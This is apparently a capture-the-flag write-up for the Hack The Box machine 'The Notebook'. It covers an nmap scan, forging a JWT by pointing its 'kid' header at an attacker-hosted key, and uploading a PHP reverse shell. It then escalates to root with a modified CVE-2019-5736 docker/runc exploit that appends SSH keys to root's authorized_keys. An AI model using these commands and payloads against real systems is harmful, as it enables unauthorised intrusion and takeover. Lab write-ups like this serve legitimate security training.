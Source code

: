```yaml
---
title: The Notebook
date: 2021-07-31
# bookComments: false
# bookSearchExclude: false
---
```


<p align="center">
  <img src="notebook-banner.png" />
</p>

***

# External Recon

We start our external recon with an nmap scan. Only two ports are open with a third one filtered.

```
nmap -sC -sV -oN inital 10.10.10.230

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
```

The most interessting service so far is http on port 80. Let's take a peek there.

![website-inital.png](website-inital.png)

Looks like an app to take notes. We could try to bruteforce the login page. But I would rather explore the app first. Let's register an account. 

# Explore

Once the account has been created we can explore the various parts of the webapp and create notes. I even tried some simple injections with
single quotes etc. but the app seems not vulnerable to those attacks.

Let's check how the application handles authentication. F12 to open the developer tools of the browser and check the storage tab where our access tokens are stored.

![auth.png](auth.png)

First thing I notice is the "auth" token. It starts with `eyJ` and this is indicative for "JWT-Tokens". [This page](https://dinochiesa.github.io/jwt/) has a nice decoder.

![jwt-decoded.png](jwt-decoded.png)

On the top-right we can see the header. And it already leaked some interessting information. The parameter `kid` or `key-id` holds the information about the private-key used to sign this token.

On the bottom-right we see our login data. And as the `admin_cap` paramater states, we are not an admin. We would like to change that though.
We can edit the token and change the 0 to a 1. But that would invalidate the signature. At least if the application in the backend checkes the signature. After playing with the token a bit, it seemed like it does check the signature. So we have to find a way to sign the token with a valid key.

Maybe the application allows us to inject our own value in the `kid` parameter. This way we could host a webserver with our own keys, which we would use to sign our forged token.

# Exploit

Let's start with a proof of concept. We will change the `kid` parameter (you can use the website above) to our IP and start a webserver with `python3 -m http.server 7070` and see if we get a request from the server.
Then copy the changed token into your browser.

![poc.png](poc.png)

Fantastic. The webserver tried to verify the key by following the outbound url. Let's now change the `admin_cap` parameter to `1`. If you used the site above, it already created a key-pair for you.
Just take the public key and save it in your web-root so that the webrequest from the server can read it. At the end of this writeup, I'll show you an alternative way of forging that token.

Once you're done with the setup and hit refresh in your browser, you should get access to the admin-panel and you should be able to read all notes.

![admin-panel.png](admin-panel.png)

The admin panel itself gives you an option to upload a file. We could try to upload a php reverse shell on the box to get in.
The notes even tell you that there's a "problem" that php files are being executed. The fix is pending. So, this has to be the way in.

Let's grab a good [php-reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and open a netcat listener.
Don't stop your webserver just yet. It's still needed to stay authenticated.

![low-shell.png](low-shell.png)

We have a shell. Let's upgrade our shell to a propper tty with `python3 -c 'import pty;pty.spawn("/bin/bash")'` then `ctrl-z` to background the shell. Then type `stty raw -echo` and hit enter
followed by `fg` and enter twice. Now you should be back. Last step is `export TERM=xterm`.

# Internal Recon

Now that we are in, we need to find a way to escalate our privileges. A look into `/etc/passwd` reveals a user named "noah". We've seen this name in the notes on the website before.
He just managed to setup his backup. With `find / -type d -name "*backup*"` we can search for a folder named "backup" and will show a folder where we have access to: `/var/backups`.

In there is a tar.gz backup of noah home directory. We will copy it to `/tmp` and unpack with `tar -xvzf`. Inside we find a noahs ssh-key. A quick `chmod 600` on it is enough to make it work for us.

![ssh.png](ssh.png)

Here we also find the user.txt.

# Privilege Escalation

Now it's time dig deeper and find a way to get root. Let's start with the basics: `sudo -l`.

![sudo.png](sudo.png)

We can run a single command as sudo without password. In this case a `docker` command.
Run `docker --version` to check which docker version is installed: 

```
Docker version 18.06.0-ce, build 0ffa825
```

This is an old version. After a small google search we can assume this docker version is vulnerable against `CVE-2019-5736`.
I picked [this exploit](https://github.com/Frichetten/CVE-2019-5736-PoC), mainly because it's easy to edit and compile.

To set it up we clone the git repo to our box. Then we need to change the exploit to fit our needs.
The exploit, as is, will copy the /etc/shadow file and make it readable. But this is not what we want. We can copy the authorized_keys file from noah in the home directory of root. 

So changing the payload to this should do the trick.

`var payload = "#!/bin/bash \n cat /home/noah/.ssh/authorized_keys >> /root/.ssh/authorized_keys"`

We compile the exploit with `go build main.go` and rename the binary from `main` to `exploit`. 

Now, for this to work you need three terminals. In the first one you need to get into the docker container via `sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash`. 
Here you will grab your exploit via `wget` from your local python webserver and `chmod +x` and launch it via `./exploit`.

In the second terminal windows you will ssh into the box with noah again and then trigger the exploit via `sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh`.

In the third window you can now try to ssh into the box as root with the rsa key of noah. The following screenshot shows this setup after the exploit
successfully triggered.

![root.png](root.png)

And that's it. We've rooted a medium difficulty machine once again. 

# Bonus Content

As promissed here's an alternative way to mess with the token. First we need to create a key-pair with ssh-keygen.

```
ssh-keygen -t rsa -b 4096 -m PEM -f jwt.key
```

Then we get a copy of the [jwt-tool](https://github.com/ticarpi/jwt_tool).

Which in turn can be used to edit and sign the token.

```
python3 jwt_tool.py [eyJ0eXAiOiJKV1QiLCJhbG..snip..] -I -hc kid -hv "http://10.10.16.4:7070/jwt.pub" -pc admin_cap -pv 1 -S rs256 -pr jwt.key
```

You can do a lot of more things with jwt_tool. But that's another topic.

Have a nice one.

x41